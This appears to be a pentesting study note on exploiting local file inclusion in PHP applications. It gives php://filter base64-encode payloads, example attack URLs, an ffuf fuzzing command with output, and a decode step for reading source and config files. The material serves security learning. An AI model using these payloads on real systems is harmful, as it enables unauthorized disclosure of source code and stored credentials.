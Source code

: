 ## PHP Filters

Modern PHP applications (and those using frameworks like Laravel or Symfony) may be vulnerable to LFI. PHP wrappers can be abused to **extend LFI exploitation** and read source code even if `.php` files are normally executed.
### PHP Filter Wrapper

Using `php://filter` we can apply **conversion filters** like `convert.base64-encode` to a resource before including it. This helps **read PHP source code** instead of executing it.

**Payload:**

```
php://filter/read=convert.base64-encode/resource=filename
```

**Usage:**

```
http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=filename
```

This returns base64-encoded content of `filename.php` (.php is appended). You can decode it using:

```bash
echo '<encoded_string>' | base64 -d
```

> ✅ This is especially useful when the application **automatically appends `.php`**, or when source code is otherwise not readable.

### Fuzzing for Targets

Use ffuf or gobuster to find `.php` files to target:

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
```
###### Output:

```bash
...SNIP...

index                   [Status: 200, Size: 2652, Words: 690, Lines: 64]
config                  [Status: 302, Size: 0, Words: 1, Lines: 1]
```
> ⚠️ Don’t ignore 301/302/403 responses — with LFI, you can still try reading those files directly.

You can extract referenced files from `index.php` as well.

```
http://<SERVER_IP>:<PORT>/index.php?language=config
```
###### This will not render the output so we use the filter to see the config file: 

```
http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=config
```
# Tags
> #Web-Exploitation #LFI #Filters